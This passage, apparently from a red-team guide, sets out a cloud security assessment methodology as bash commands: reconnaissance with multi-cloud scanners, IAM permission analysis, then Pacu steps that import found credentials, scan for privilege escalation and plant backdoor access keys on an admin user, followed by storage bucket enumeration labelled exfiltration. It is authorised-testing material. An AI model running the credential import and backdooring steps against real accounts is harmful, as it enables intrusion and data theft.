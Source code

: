 A structured approach to cloud security assessment ensures thorough coverage and maximizes the value of red team operations.

### 1. Reconnaissance and Enumeration

```bash
# Use multi-cloud tools for initial discovery
scout aws --report-dir ./aws-recon
scout azure --report-dir ./azure-recon
scout gcp --report-dir ./gcp-recon

# Process findings for further analysis
grep -r "CRITICAL" ./aws-recon > critical_aws_findings.txt
grep -r "HIGH" ./azure-recon > high_azure_findings.txt
```

### 2. Permission Analysis

```bash
# AWS IAM analysis
cloudsplaining scan --input-file aws-iam-details.json

# Azure RBAC analysis
az role assignment list --include-inherited --include-groups --output json > azure_rbac.json

# GCP IAM analysis
gcp-iam-analyzer analyze --policy gcp-iam-policy.json
```

### 3. Exploitation and Privilege Escalation

```bash
# Import discovered credentials into Pacu
python3 pacu.py
import_keys --profile discovered_aws_creds

# Scan for privilege escalation paths
run iam__privesc_scan

# Execute identified privilege escalation techniques
run iam__backdoor_users_keys --usernames admin-user
```

### 4. Data Discovery and Exfiltration

```bash
# Scan for exposed data in AWS
python s3scanner.py --bucket-list discovered_buckets.txt --check-perms

# Azure storage account analysis
az storage blob list --account-name <storage-account> --output json > azure_blobs.json

# GCP storage bucket analysis
for bucket in $(gsutil ls); do
  gsutil ls -r $bucket > gcp_bucket_contents.txt
done
```

